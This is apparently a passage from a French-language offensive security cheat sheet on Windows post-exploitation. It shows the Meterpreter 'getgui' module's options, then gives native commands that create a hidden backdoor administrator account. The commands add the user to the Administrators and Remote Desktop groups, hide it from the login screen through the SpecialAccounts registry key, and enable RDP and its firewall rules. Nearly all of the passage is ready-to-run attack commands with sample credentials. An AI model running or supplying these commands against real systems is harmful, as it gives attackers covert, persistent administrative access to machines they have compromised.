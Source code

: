 ### Syntaxe et options getgui
```bash
# Syntaxe de base
run getgui -e -u <username> -p <password>

# Options détaillées
run getgui -h                          # Aide
run getgui -e                          # Enable RDP seulement
run getgui -u alice -p password123     # Créer utilisateur
run getgui -e -u alice -p password123  # Enable RDP + créer user
run getgui -f 5555 -e                  # Port RDP personnalisé
```

### Exemple complet
```bash
# Création utilisateur caché avec RDP
run getgui -e -u alice -p hack_123321

# Ce qui est exécuté automatiquement :
# 1. net user alice hack_123321 /add
# 2. net localgroup Administrators alice /add
# 3. net localgroup "Remote Desktop Users" alice /add
# 4. reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList" /v alice /t REG_DWORD /d 0
# 5. netsh firewall set service remotedesktop enable
```

---

## 🔧 5. Création manuelle d'utilisateur caché

### Commandes natives Windows
```cmd
# 1. Créer utilisateur
net user alice hack_123321 /add

# 2. Ajouter aux groupes administrateurs
net localgroup Administrators alice /add
net localgroup "Remote Desktop Users" alice /add

# 3. Masquer de l'écran de connexion
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList" /v alice /t REG_DWORD /d 0

# 4. Activer RDP
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0

# 5. Autoriser RDP dans le firewall
netsh firewall set service remotedesktop enable
netsh advfirewall firewall set rule group="Remote Desktop" new enable=yes
```
